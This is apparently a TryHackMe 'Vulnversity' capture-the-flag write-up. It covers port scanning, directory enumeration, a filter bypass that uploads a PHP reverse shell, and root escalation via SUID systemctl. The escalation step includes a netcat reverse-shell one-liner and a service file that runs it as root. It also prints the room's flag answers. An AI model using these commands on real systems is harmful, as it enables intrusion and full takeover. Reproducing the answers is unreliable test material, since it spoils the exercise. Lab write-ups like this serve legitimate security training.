 # [Vulnversity](https://tryhackme.com/room/vulnversity)

> Learn about active recon, web app attacks and privilege escalation.

## Scanning

scan the machine

```
nmap -A -T4 10.10.196.8
```

there are 6 open ports (21,22,139,445,3128,3333)

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/9c7adb96-ae21-4b38-bea3-9d92fde29702)

## HTTP

check the webpage at port 3333

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/b8b3e220-516e-4d95-86d1-e8b556b94a44)

## Enumeration

scan the directory with gobuster

```
gobuster dir -u http://10.10.196.8:3333 -w /usr/share/wordlists/dirb/common.txt -t 30
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/b5640201-d855-4903-913a-f6faffeea033)

i found a secret directory /internal allow file upload

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/6f9e353e-3e6f-4b58-b7cf-0482c3edc85f)

## Exploitation

let's create a reverse shell

```
cp /usr/share/webshells/php/php-reverse-shell.php reverse.php
vi reverse.php
```

when submit, i see it filtered

so, try find out the allowed extension with Burp intruder

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/f369fd74-089e-48f7-bf99-93c14ba77bf4)

make a wordlist with the following extensions

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/bd47c0ca-1c0d-4de0-95fe-0cadc87732cb)

you can see a diffirent length in .phtml

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/233ac524-a9dd-46ea-9217-3002bdde14ff)

check the /internal/uploads 

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/8f9543c1-1be6-4190-bda8-196f8340c037)

open a netcat listener

```
nc -vlnp 1234
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/9b0c8e33-8818-4dcd-b24b-c4855fbc8831)

look around home folder, see a user call `bill` and our flag

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/8a1d2344-f984-4341-8842-10418b04bc8c)

| Flag | user.txt |
| --- | --- |
| Answer | 8bd7992fbe8a6ad22a63361004cfcedb |

## Privilege Escalation

listing file with suid bit

```
find / -user root -perm -4000 2> /dev/null
```

i see an interest `/bin/systemctl`

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/9d1c8d67-9cb2-407e-825b-c5c9de6729fc)

i found a document for it

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/e28e2f76-b8c6-4eed-847f-b9432954e687)

```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.18.37.45 4444 >/tmp/f" > /tmp/rev.sh
```

prepare netcat listener first

```
nc -vlnp 4444
```

now create a service and run it with systemctl to get root

```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "bash /tmp/rev.sh"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/9c6fdfcf-ac6e-4b14-9de2-b4fceff692c6)

here you are

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/cdb6c9c5-583f-4946-b96d-8dbf026d2ba0)

| Flag | root.txt |
| --- | --- |
| Answer | a58ff8579f0a9270368d33a9966c7fd5 |

